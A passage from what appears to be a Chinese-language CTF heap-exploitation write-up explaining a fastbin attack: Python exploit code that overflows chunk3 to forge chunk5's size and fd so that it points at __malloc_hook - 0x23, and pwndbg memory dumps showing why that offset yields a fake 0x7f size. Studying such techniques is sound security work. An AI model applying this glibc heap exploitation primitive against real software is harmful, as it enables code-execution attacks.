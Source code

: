 当我们伪造chunk5的fd时，fastbin会指向chunk5的fd，就会误认为还有一个可用块。

```python
free(5) # 先释放，然后修改Chunk3来溢出填充
payload3 = b'b'*(0x80) + p64(0x70 + 1) + p64(0x70 + 1) + p64(fake_chunk_loc) + p64(0)
fill(3, len(payload3), payload3)
```

这里0x80个b填充chunk3的空间，然后chunk5的prevsize和size都设置为了0x81，然后chunk5的fd设置为了fake_chunk_loc即`malloc_hook - 0x23`，chunk5的bk位置设置为0（实际不启用）。

为什么是-0x23呢？因为刚好可以构成一个size=27的结构，让对管理器以为是一个0x7f大小的可用的fastbin chunk，

从 `__malloc_hook - 0x20` 到 `__malloc_hook - 0x23` 的示意图如下，可以观察到尖括号标注的0x7f被移动到第二行，构成了一个size的数据表示。

```python
pwndbg> x/48xb 0x7f39c88a8b10-0x20
0x7f39c88a8af0:                         0x60    0x72    0x8a    0xc8    0x39  <'0x7f'>  0x00    0x00
0x7f39c88a8af8:                         0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f39c88a8b00 <__memalign_hook>:       0xf0    0xa3    0x56    0xc8    0x39    0x7f    0x00    0x00
0x7f39c88a8b08 <__realloc_hook>:        0xd0    0x9f    0x56    0xc8    0x39    0x7f    0x00    0x00
0x7f39c88a8b10 <__malloc_hook>:         0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f39c88a8b18:                         0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
pwndbg> x/48xb 0x7f39c88a8b10-0x21
0x7f39c88a8aef:                         0x00    0x60    0x72    0x8a    0xc8    0x39  <'0x7f'>  0x00
0x7f39c88a8af7:                         0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f39c88a8aff:                         0x00    0xf0    0xa3    0x56    0xc8    0x39    0x7f    0x00
0x7f39c88a8b07 <__memalign_hook+7>:     0x00    0xd0    0x9f    0x56    0xc8    0x39    0x7f    0x00
0x7f39c88a8b0f <__realloc_hook+7>:      0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f39c88a8b17 <__malloc_hook+7>:       0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
pwndbg> x/48xb 0x7f39c88a8b10-0x22
0x7f39c88a8aee:                         0x00    0x00    0x60    0x72    0x8a    0xc8    0x39  <'0x7f'>
0x7f39c88a8af6:                         0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f39c88a8afe:                         0x00    0x00    0xf0    0xa3    0x56    0xc8    0x39    0x7f
0x7f39c88a8b06 <__memalign_hook+6>:     0x00    0x00    0xd0    0x9f    0x56    0xc8    0x39    0x7f
0x7f39c88a8b0e <__realloc_hook+6>:      0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f39c88a8b16 <__malloc_hook+6>:       0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
pwndbg> x/48xb 0x7f39c88a8b10-0x23
0x7f39c88a8aed:                         0x00    0x00    0x00    0x60    0x72    0x8a    0xc8    0x39
0x7f39c88a8af5:                       <'0x7f'>  0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f39c88a8afd:                         0x00    0x00    0x00    0xf0    0xa3    0x56    0xc8    0x39
0x7f39c88a8b05 <__memalign_hook+5>:     0x7f    0x00    0x00    0xd0    0x9f    0x56    0xc8    0x39
0x7f39c88a8b0d <__realloc_hook+5>:      0x7f    0x00    0x00    0x00    0x00    0x00    0x00    0x00
```